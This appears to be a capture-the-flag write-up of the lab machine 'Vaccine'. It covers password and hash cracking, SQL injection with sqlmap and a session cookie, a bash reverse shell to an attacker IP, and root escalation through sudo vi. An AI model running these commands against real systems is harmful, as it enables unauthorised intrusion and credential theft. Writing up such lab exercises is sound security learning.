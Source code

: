 # Vaccine

## Summary

This is a pretty complicated one, involving Hash Cracking, SQL Injection, and Linux Privesc with vi sudo access  
First, we crack an encrypted zip's hash, then we obtain a admin php user hash, which we crack  
This gives us access to a website login  
We use sqlmap and Cookie-Editor to inject sql commands  
This enables us to get a reverse shell, where we quickly find the plaintext password for postgres user, which allows us to login with ssh  
Finally, we use a vi sudo vulnerability to escalate privleges and obtain a root shell

## Enumeration

nmap shows that ports 21,22,80 are open  
21 is ftp, and -sC shows us that Anonymous FTP login is allowed with username anonymous  
We can grab a password protected zip file called backups.zip from the ftp server

## Hash Cracking

We can use a john the ripper script called zip2john to generate a hash from a password protected zip in a format to allow for cracking attempts: `zip2john backups.zip > hashes`  
Then, run john the ripper:  
`john -wordlist=/usr/share/wordlists/rockyou.txt hashes`
`john -show hashes` shows us that john has cracked the hash  
Using this password to unzip the zip shows us a hash of an admin password in the index.php file  
We can attempt to determine what type of hash this is with: `hashid <hash>` or in our case `hashid 2cb42f8734ea607eefed3b70af13bbd3`  
This gives us a number of potetial hash types, one of which is MD5  
`echo '2cb42f8734ea607eefed3b70af13bbd3' > hash`  
Attempt to crack the hash with hashcat: `hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt`  
- `-m` specifies the hashtype, 0 is MD5  

This gives us the password in plaintext  
Hashcat and JtR are very similar tools and for my current understanding can be used interchangibly

## Web Enumeration

We can login to the website with our admin credentials now  
From here, we can enumerate sql injection possibilities  
We can use a firefox extension called Cookie-Editor to get our cookie  
Then, run sql map:  
`sqlmap -u 'http://10.129.64.242/dashboard.php?search=any+query' --cookie="PHPSESSID=4loa43cu3oua054lfnlrd7kpi2"`  
The output of this command shows that the target is vulnerable to sql injection. Therefore, we can run:  
`sqlmap -u 'http://10.129.64.242/dashboard.php?search=any+query' --cookie="PHPSESSID=4loa43cu3oua054lfnlrd7kpi2" --os-shell`
to perform command injection  
Setup a netcat listener on 443: `nc -lvnp 443`  
Then, we inject the command: `bash -c "bash -i >& /dev/tcp/10.10.15.135/443 0>&1"` to connect to our listener  
This shell is very unstable, so we want to act quick  
We will try to find our password in the /var/www/html folder, since the machine uses both PHP and SQL, meaning there should be credentials in clear text  
Once we have the password for postgres, we can use ssh to connect instead, which is more stable

## Privlege Escalation

typing `sudo -l` to see what privleges we do have: we find that we have sudo privleges to edit the pg_hba.conf file using vi by running  
`sudo /bin/vi /etc/postgres/11/main/pg_hba.conf`  
We can go to **GTFOBins** to see if we can abuse this privlege  
Turns out we can: run vi as super user, and use the vi command (:) to run `:set shell=/bin/sh`  
Then, run `:shell` which gives us a shell as root